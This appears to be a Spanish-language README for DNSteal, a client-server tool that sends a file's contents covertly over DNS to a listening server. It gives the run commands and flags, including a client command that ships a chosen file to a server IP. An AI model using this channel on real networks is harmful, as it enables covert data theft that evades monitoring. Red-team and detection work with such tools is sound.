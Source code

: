 # DNSteal

## Uso

#### 💻 Ejecutar el programa:

* **Server**

```bash
python3 server.py
```

<img src="/media/Client.png" width="300" title="use example">

* **Client**

```bash
python3 client.py -s Server_IP -f File
```

<img src="./media/Server.png" width="300" title="use example">

### 🚩 Flags del Programa

* **Server**

```bash
-s / --server: [Opcional] IP que quieras para el servidor. Predet = 0.0.0.0
-d / --domain: [Opcional] Dominio que desea utilizar. Predet = secreto.com.
-i / --ip: [Opcional] IP de respuesta falsa. Predet = 127.0.0.1
-p / --port: [Opcional] Puerto que desea utilizar. Predet = 53
```
* **Client**

```bash
-s / --server: [Requerido] IP a la que desea conectarse
-f / --file: [Requerido] Archivo que contiene el mensaje
-t / --time: [Opcional] Tiempo que las solicitudes esperan una respuesta del servidor. Predet = 5
-d / --domain: [Opcional] Dominio que desea utilizar. Predet = secreto.com.
```

### :movie_camera: Demostración de Uso

https://user-images.githubusercontent.com/35707527/210021277-b58cc8c7-3d88-4109-b3cd-e2209d4a93b7.mp4

